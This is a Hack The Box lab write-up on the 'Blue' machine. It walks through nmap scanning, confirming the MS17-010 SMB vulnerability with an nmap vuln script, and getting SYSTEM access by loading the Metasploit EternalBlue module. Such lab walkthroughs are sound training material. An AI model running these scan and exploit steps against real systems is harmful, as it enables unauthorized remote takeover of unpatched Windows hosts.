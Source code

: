 ```yaml
---
title:     "Hack The Box - Blue"
tags: [windows,easy,eternalblue]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/1.png)

We are going to pwn Blue from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/51>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows 8.1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m33s, deviation: 1s, median: 1m32s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-08T16:52:23+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T16:52:25
|_  start_date: 2020-03-08T16:46:59

```

The name of the box is hint, it may be ``eternalblue`` exploit.

We can check that by running nmap script.
>nmap -A -p445 --script vuln 10.10.10.40

```
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```
So my guess is correct.
```
What Is EternalBlue?

EternalBlue is an exploit most likely developed by the NSA as a former zero-day. It was released in 2017 by the Shadow Brokers, a hacker group known for leaking tools and exploits used by the Equation Group, which has possible ties to the Tailored Access Operations unit of the NSA.

EternalBlue, also known as MS17-010, is a vulnerability in Microsoft's Server Message Block (SMB) protocol. SMB allows systems to share access to files, printers, and other resources on the network. The vulnerability is allowed to occur because earlier versions of SMB contain a flaw that lets an attacker establish a null session connection via anonymous login. An attacker can then send malformed packets and ultimately execute arbitrary commands on the target.
```

>https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue

>use exploit windows/smb/ms17_010_eternalblue

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/2.png)

After Some attempts it worked.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-blue/3.png)<br/>
I got Authority\System directly.

